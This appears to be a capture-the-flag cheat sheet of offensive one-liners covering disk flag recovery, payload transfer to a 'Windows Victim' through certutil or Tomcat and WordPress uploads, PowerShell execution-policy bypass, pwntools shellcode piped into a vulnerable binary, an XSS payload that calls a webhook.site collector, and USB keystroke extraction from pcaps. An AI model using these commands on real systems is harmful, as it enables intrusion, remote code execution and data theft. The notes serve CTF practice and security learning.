 ***

### Recover Files from Deleted File Systems
* To Extract Flag from the file system - `strings /dev/sdb`
* Flag Recovery with regex `grep -a '[a-z0-9]\{32\}' /dev/sdb`
* `ssh username@remote_address "sudo dcfldd -if=/dev/sdb | gzip -1 ." | dcfldd of=extract.dd.gz` -- Used to get from Remote Hosts
* `gunzip -d extract.dd.gz`
* `binwalk -Me extract.dd`

### Transfer Files from Host to Target Machine
* Use `python -m SimpleHTTPServer` in the host folder.
* Use Apache and put files in `/var/www/html/` folder.
* If Tomcat is Opened, upload the file/payload using the Admin panel.
* If wordpress is running, upload the file as plugin.
* In Windows Victim, use `certutil -urlcache -f http://<HOST_IP>/<FILE_NAME> <OUTPUT_FILE_NAME>`

### Powershell
* To bypass execution policy `powershell.exe -exec bypass`

### BufferOverflow
* To generate shellcode quickly, we can use..
  * `python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh))`
  * `(python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh()))" ;cat) | ./vuln`
 
### XSS Attack
* If there is a website, with a text field to submit, we can try XSS Attack.
  * Use any online HTTP Bin website like https://webhook.site/#!/
  * ``` ""> <img src="https://webhook.site/19df1f1a-2ec8-453e-b85b-ed2cab66a5cc>"```
  
### Packet Capture
* If usb keys are mapped with pcap, we can use this Article to extract usb keys entered: [Link](https://medium.com/@ali.bawazeeer/kaizen-ctf-2018-reverse-engineer-usb-keystrok-from-pcap-file-2412351679f4)
  * Example Command : `tskark.exe -r <FILE_NAME.pcapng> -Y "usb.transfer_types==1" -e "frame.time.epoch" -e "usb.capdata" -Tfields`

